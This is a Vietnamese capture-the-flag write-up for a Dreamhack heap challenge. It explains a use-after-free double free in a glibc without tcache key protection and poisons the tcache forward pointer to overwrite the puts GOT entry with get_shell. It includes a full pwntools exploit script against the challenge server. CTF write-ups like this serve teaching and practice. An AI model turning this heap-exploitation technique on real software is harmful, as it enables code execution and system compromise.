







# 1. Find Bug :



- Free ko xóa con trỏ -> UAF




- Có hàm get_shell

# 2. Idea : 




- Ta thấy PIE tắt + Partial RELRO, và tận dụng UAF -> Overwrite got hàm nào đó -> get_shell




- Ở đây ta chọn got `puts`

# 3. Exploit :

- Ta để ý khi `free` ở bản libc này `tcachebin` ko có key để chống `double free` nên ta tạo 1 chunk và free thẳng 2 lần

```
create(0x100, b'0')
dell(0)
dell(0)
```



- Sau đó malloc 1 lần với size thuộc vùng tcache cũ và overwrite `forward pointer` -> got `puts`




- Giờ cần malloc lần 1 để cái tcachebin đầu được sử dụng rồi malloc lần 2 để overwrite got `puts` -> `get_shell`

## SCRIPT :
```
#!/usr/bin/python3

from pwn import *

exe = ELF("tcache_dup_patched")
libc = ELF("./libc.so.6")

context.binary = exe

s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+92
        c
        ''')
        input()

def create(size, data):
    slna(b'> ', 1)
    slna(b'Size: ', size)
    sla(b'Data: ', data)

def dell(index):
    slna(b'> ', 2)
    slna(b'idx: ', index)

if args.REMOTE:
    p = remote('host3.dreamhack.games', 9049)
else:
    p = process([exe.path])
GDB()

create(0x100, b'0')
dell(0)
dell(0)
create(0x100, p64(exe.got.puts))
create(0x100, b'a')
create(0x100, p64(exe.sym.get_shell))


p.interactive()
```

# 4. Get Flag :


